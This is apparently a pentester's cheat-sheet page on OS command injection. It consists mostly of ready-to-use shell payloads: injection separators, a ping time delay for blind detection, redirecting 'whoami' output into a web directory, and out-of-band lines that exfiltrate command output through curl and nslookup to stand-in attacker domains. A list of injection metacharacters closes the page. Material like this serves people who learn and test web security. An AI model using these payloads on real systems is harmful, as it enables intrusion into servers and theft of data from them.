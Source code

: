 # OS command injection

## <mark style="color:purple;">Command injection</mark>

```sh
& echo qwerty &
```

Placing `&` after the injected command is generally useful because it separates the injected command from whatever follows the injection point.

## <mark style="color:purple;">Blind OS command</mark>

**Detection**

```sh
# 10 sec. time delay
& ping -c 10 127.0.0.1 &
```

**Exploit**

1. Redirecting output. Note: you must have write permission

```sh
& whoami > /var/www/static/whoami.txt &
curl https://website.com/whoami.txt
```

2. Out-of-band techniques

```sh
& curl `whoami`.webserver-attacker.com & # HTTP traffic may be blocked
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

## <mark style="color:purple;">Bypass restriction</mark>

There are so many ways: [https://book.hacktricks.wiki/linux-hardening/bypass-bash-restrictions/index.html](https://book.hacktricks.wiki/linux-hardening/bypass-bash-restrictions/index.html)

## <mark style="color:purple;">Metacharacters</mark>

```sh
# Windows & Unix
&
&&
|
||

# Unix
;

# Unix inline execution
`command`
$(command)
```
